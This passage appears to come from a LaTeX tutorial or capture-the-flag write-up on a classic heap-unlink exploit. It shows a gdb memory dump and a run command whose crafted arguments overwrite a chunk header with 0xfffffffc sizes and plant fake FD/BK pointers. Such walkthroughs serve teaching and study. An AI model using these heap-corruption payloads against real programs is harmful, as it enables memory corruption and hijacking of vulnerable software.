 So, we've crashed in exactly the same location, but now we've pinned down the exact
locations that \texttt{FD} and \texttt{BK} are loaded from. For clarity, we'll run
the program again, but examine how all our chunks are set up immediately after the
calls to \texttt{strcpy}.

\begin{lstlisting}
(gdb) x/32x 0x0804c000
0x804c000:      0x00000000      0x00000029      0x41414141      0x41414141
0x804c010:      0x41414141      0x41414141      0x41414141      0x41414141
0x804c020:      0x41414141      0x41414141      0xfffffffc      0xfffffffc
0x804c030:      0xf0f0f0f0      0x41414141      0x42424242      0x00000000
0x804c040:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c050:      0x00000000      0x00000029      0x00000043      0x00000000
0x804c060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000f89
\end{lstlisting}

As we can see (especially when comparing with the previous dump of such memory from
a ``clean" execution), we've corrupted \texttt{b}'s header, and placed a fake chunk
at \texttt{\&b+0x4}. Now, let's try doing something with \texttt{unlink} besides segfaulting
our program. For example, let's try changing a few bytes within \texttt{a}'s data portion.

\begin{lstlisting}
(gdb) r `python -c 'print("A"*32 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff")'` `python -c 'print("\xf0"*4+"\x04\xc0\x04\x08"*4)'` C
dynamite failed?

Program exited with code 021.
\end{lstlisting}

No segfault! now we'll breakpoint after each of our 3 calls to \texttt{free}
to see how things change.

